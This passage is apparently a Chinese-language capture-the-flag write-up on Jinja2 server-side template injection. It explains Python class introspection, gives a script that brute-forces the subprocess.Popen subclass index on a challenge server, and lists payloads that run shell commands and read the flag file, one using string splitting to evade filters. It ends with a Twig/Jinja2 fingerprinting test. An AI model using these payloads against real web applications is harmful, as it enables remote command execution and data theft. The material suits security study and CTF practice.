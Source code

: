 

`__class__`：用来查看变量所属的类，根据前面的变量形式可以得到其所属的类。 

`__bases__`：用来查看类的基类，也可以使用数组索引来查看特定位置的值。 通过该属性可以查看该类的所有直接父类，该属性返回所有直接父类组成的**元组**（虽然只有一个元素）。注意是直接父类！！！

获取基类还能用 `__mro__` 方法，`__mro__` 方法可以用来获取一个类的调用顺序，比如：

找object基类：

```
{{''.__class__.__mro__[2]}}
```

`__subclasses__()`：查看当前类的子类组成的列表，即返回基类object的子类。

爆出所有类：

```
{{''.__class__.__mro__[2].__subclasses__()}}
```

利用脚本找subprocess.Popen这个类，

```python
import requests

url = "http://04f772b7-efbb-45fb-983e-873c357519b7.node4.buuoj.cn:81/"

for i in range(1, 1000):
    payload = "?search={{[].__class__.__bases__[0].__subclasses__()[%s]}}" % i

    r = requests.get(url+payload).text
    print(str(i)+" no")
    if 'subprocess.Popen' in r:
        print(str(i)+"yes")
        break
```

第258个

直接读：

`{{[].__class__.__bases__[0].__subclasses__()[258]('ls /;cd flasklight;ls;cat coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}`

或者直接拼接

```python
{{"".__class__.__mro__[2].__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen("ls").read()}}
```

### [BJDCTF2020]Cookie is so stable twig

提示看cookie，在user处注入：

```
{{7*'7'}} 回显7777777 ==> Jinja2
{{7*'7'}} 回显49 ==> Twig 
```
